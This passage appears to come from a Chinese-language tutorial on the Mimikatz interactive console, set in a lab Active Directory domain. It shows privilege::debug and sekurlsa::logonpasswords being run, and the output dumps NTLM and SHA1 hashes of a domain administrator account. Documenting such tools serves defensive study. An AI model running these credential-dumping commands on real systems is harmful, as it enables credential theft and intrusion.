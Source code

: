 ```
 * Domain   : ADSECLAB
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 [00010000] CredentialKeys
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 tspkg :
 wdigest :
 * Username : ADSAdministrator
 * Domain   : ADSECLAB
 * Password : (null)
 kerberos :
 * Username : adsadministrator
 * Domain   : LAB.ADSECURITY.ORG
 * Password : (null)
 ssp :   KO

```

交互模式提供了一个命令可以输入并实时执行的 “Mimikatz 控制台”：

```
PS C:\temp\mimikatz> .\mimikatz

.#####.   mimikatz 2.0 alpha (x64) release "Kiwi en C" (Nov 13 2015 00:44:32)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
 '#####'                                     with 17 modules * * */

mimikatz # privilege::debug
 Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 646260 (00000000:0009dc74)
 Session           : RemoteInteractive from 2
 User Name         : adsadministrator
 Domain            : ADSECLAB
 Logon Server      : ADSDC03
 Logon Time        : 11/27/2015 11:41:27 AM
 SID               : S-1-5-21-1581655573-3923512380-696647894-500
 msv :
 [00000003] Primary
 * Username : ADSAdministrator
 * Domain   : ADSECLAB
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 [00010000] CredentialKeys
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 tspkg :
 wdigest :
 * Username : ADSAdministrator
 * Domain   : ADSECLAB
 * Password : (null)
 kerberos :
 * Username : adsadministrator
 * Domain   : LAB.ADSECURITY.ORG
 * Password : (null)
 ssp :   KO
 credman :

```